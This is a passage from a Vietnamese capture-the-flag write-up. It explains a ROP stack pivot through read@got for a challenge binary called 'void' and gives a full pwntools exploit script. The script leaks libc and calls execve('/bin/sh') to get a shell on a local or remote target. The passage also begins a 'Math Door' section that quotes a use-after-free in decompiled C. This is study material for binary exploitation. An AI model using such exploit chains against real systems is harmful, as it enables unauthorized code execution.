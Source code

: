 Nhớ rằng sau khi trigger call write_syscall thì vẫn còn `$rsi=read@got`, nên mình sẽ để `saved_rbp=read@got-8`, khi `leave` ta được `$rsp=read@got` -> hàm `main` return về `read@plt`. 

Lúc này  `read_syscall` được gọi ra, nó sẽ tự ghi đè chính return address của nó ( vì có `$rsi=read@got`, `$rsp=read@got+8`).

Final script:
```python
from pwn import *
from time import sleep
context.binary=e=ELF("./void")
libc=e.libc
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript="""
            b *vuln+32
            b *main+25
            """)
            pause()
    elif args.REMOTE:
            p=remote(args.HOST,int(args.PORT))
    return p
rdi_ret=0x00000000004011bb
rsi_r15_ret=0x00000000004011b9
p=start()
p.sendline(b"A"*64+p64(e.got.read-8)+
           p64(rsi_r15_ret)+p64(e.got.read)+p64(0)+
           p64(e.plt.read)+
           p64(rdi_ret)+p64(1)+
           p64(e.plt.read)+
           p64(rdi_ret)+p64(0)+
           p64(e.sym.main+20)
)
sleep(1)
p.send(b"\x8c")
libc.address=u64(p.recv(8))-(libc.sym.read+12)
p.recv()
log.info(f"libc @ {hex(libc.address)}")
rdx_ret=0x00000000000c8acd+libc.address
p.sendline(p64(0)+
           p64(rdi_ret)+p64(next(libc.search(b"/bin/sh")))+
           p64(rsi_r15_ret)+p64(0)+p64(0)+
           p64(rdx_ret)+p64(0)+
           p64(libc.sym.execve))
p.interactive()
```

## Math Door

Use after free:
```c
void delete()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]

  puts("Hieroglyph index:");
  v0 = read_int();
  if ( v0 < counter )
    free((void *)chunks[v0]);
  else
    puts("That hieroglyph doens't exist.");
}
```